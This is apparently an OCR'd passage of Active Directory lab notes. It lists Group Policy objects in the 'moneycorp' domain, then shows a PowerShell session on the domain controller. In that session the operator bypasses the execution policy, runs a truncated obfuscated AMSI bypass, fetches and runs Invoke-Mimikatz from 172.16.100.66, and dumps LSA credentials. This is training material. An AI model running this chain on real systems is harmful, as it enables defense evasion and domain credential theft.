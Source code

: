 ```
instancetype             : 4
objectguid               : 06b004fe-5da8-4765-83c6-595fd1af5bcf
objectcategory           : CN=Group-Policy-Container,CN=Schema,CN=Configuration,DC=moneycorp,DC=local

usncreated               : 65523
displayname              : Servers
gpcmachineextensionnames : [{35378EAC-683F-11D2-A89A-00C04FBBCFA2}{D02B1F72-3407-48AE-BA88-E8213C6761F1}][{827D319E-6EAC-11D2-A4EA-00C04F79F83A}{803E14A0-B4FB-11D0-A0D0-00A0C90F574B}]
whenchanged              : 4/20/2019 6:21:47 AM
objectclass              : {top, container, groupPolicyContainer}
gpcfunctionalityversion  : 2
showinadvancedviewonly   : True
usnchanged               : 123130
dscorepropagationdata    : {5/3/2020 9:04:05 AM, 2/21/2019 12:17:00 PM, 2/19/2019 1:04:02 PM, 2/19/2019 12:55:49 PM...}
name                     : {C4F31C31-6258-4991-AAAD-454934E882AE}
adspath                  : LDAP://CN={C4F31C31-6258-4991-AAAD-454934E882AE},CN=Policies,CN=System,DC=dollarcorp,DC=moneycorp,DC=local
flags                    : 0
cn                       : {C4F31C31-6258-4991-AAAD-454934E882AE}
gpcfilesyspath           : \\dollarcorp.moneycorp.local\SysVol\dollarcorp.moneycorp.local\Policies\{C4F31C31-6258-4991-AAAD-454934E882AE}
distinguishedname        : CN={C4F31C31-6258-4991-AAAD-454934E882AE},CN=Policies,CN=System,DC=dollarcorp,DC=moneycorp,DC=local
whencreated              : 2/19/2019 6:53:55 AM
versionnumber            : 10
instancetype             : 4
objectguid               : 85432932-9ec6-47ea-9709-92ad11bd3e89
objectcategory           : CN=Group-Policy-Container,CN=Schema,CN=Configuration,DC=moneycorp,DC=local

usncreated               : 65831
displayname              : Students
gpcmachineextensionnames : [{35378EAC-683F-11D2-A89A-00C04FBBCFA2}{D02B1F72-3407-48AE-BA88-E8213C6761F1}][{827D319E-6EAC-11D2-A4EA-00C04F79F83A}{803E14A0-B4FB-11D0-A0D0-00A0C90F574B}]
whenchanged              : 4/20/2019 6:22:16 AM
objectclass              : {top, container, groupPolicyContainer}
gpcfunctionalityversion  : 2
showinadvancedviewonly   : True
usnchanged               : 123144
dscorepropagationdata    : {5/3/2020 9:04:05 AM, 2/21/2019 12:17:00 PM, 2/19/2019 1:04:02 PM, 2/19/2019 12:55:49 PM...}
name                     : {3E04167E-C2B6-4A9A-8FB7-C811158DC97C}
adspath                  : LDAP://CN={3E04167E-C2B6-4A9A-8FB7-C811158DC97C},CN=Policies,CN=System,DC=dollarcorp,DC=moneycorp,DC=local
flags                    : 0
cn                       : {3E04167E-C2B6-4A9A-8FB7-C811158DC97C}
gpcfilesyspath           : \\dollarcorp.moneycorp.local\SysVol\dollarcorp.moneycorp.local\Policies\{3E04167E-C2B6-4A9A-8FB7-C811158DC97C}
distinguishedname        : CN={3E04167E-C2B6-4A9A-8FB7-C811158DC97C},CN=Policies,CN=System,DC=dollarcorp,DC=moneycorp,DC=local
whencreated              : 2/19/2019 7:04:25 AM
versionnumber            : 8
instancetype             : 4
objectguid               : 8ecdfe44-b617-4b9e-a9f9-4d548e5dc7b1
objectcategory           : CN=Group-Policy-Container,CN=Schema,CN=Configuration,DC=moneycorp,DC=local
```


[dcorp-dc]: PS C:\Users\svcadmin\Documents> powershell -ep bypass
[dcorp-dc]: PS C:\Users\svcadmin\Documents> S`eT-It`em ( 'V'+'aR' + 'IA' + ('blE:1'+'q2') + ('uZ'+'x') ) ([TYpE]( "{1}{0
[dcorp-dc]: PS C:\Users\svcadmin\Documents> iex (iwr http://172.16.100.66/Invoke-Mimikatz.ps1 -UseBasicParsing)
[dcorp-dc]: PS C:\Users\svcadmin\Documents> Invoke-Mimikatz -Command '"lsadump::lsa /patch"'